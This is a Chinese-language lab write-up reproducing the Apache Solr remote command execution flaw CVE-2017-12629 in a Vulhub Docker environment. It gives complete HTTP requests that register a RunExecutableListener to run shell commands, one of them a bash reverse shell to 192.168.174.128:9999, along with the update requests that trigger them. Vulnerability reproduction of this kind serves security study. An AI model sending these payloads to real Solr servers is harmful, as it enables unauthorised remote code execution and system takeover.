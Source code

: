 # Apache Solr 远程命令执行漏洞 CVE-2017-12629

## 漏洞描述

漏洞原理与分析可以参考：

- https://www.exploit-db.com/exploits/43009/
- https://paper.seebug.org/425/

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：[XML实体扩展漏洞（XXE）](https://github.com/vulhub/vulhub/tree/master/solr/CVE-2017-12629-XXE)和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为CVE-2017-12629。

本环境测试RCE漏洞。

## 环境搭建

Vulhub运行漏洞环境：

```
docker-compose up -d
```

命令执行成功后，需要等待一会，之后访问`http://your-ip:8983/`即可查看到Apache solr的管理页面，无需登录。

![image-20220301111215342](images/202203011112418.png)

## 漏洞复现

首先创建一个listener，其中设置exe的值为我们想执行的命令，args的值是命令参数：

```
POST /solr/demo/config HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 158

{"add-listener":{"event":"postCommit","name":"new_listener","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "touch /tmp/awesome_poc"]}}
```

![image-20220301111449684](images/202203011114799.png)

然后进行update操作，触发刚才添加的listener：

```
POST /solr/demo/update HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15

[{"id":"test"}]
```

![image-20220301111552786](images/202203011115847.png)

执行`docker-compose exec solr bash`进入容器，可见`/tmp/awesome_poc`已成功创建：

![image-20220301111641749](images/202203011116817.png)

执行反弹shell命令：

```
POST /solr/demo/config HTTP/1.1
Host: your-vps-ip:8983
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 192

{"add-listener":{"event":"postCommit","name":"newlistener_bash","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1"]}}
```

然后进行update操作，触发刚才添加的listener：

```
POST /solr/demo/update HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15

[{"id":"test"}]
```

成功接收反弹shell：

![image-20220301112041937](images/202203011120015.png)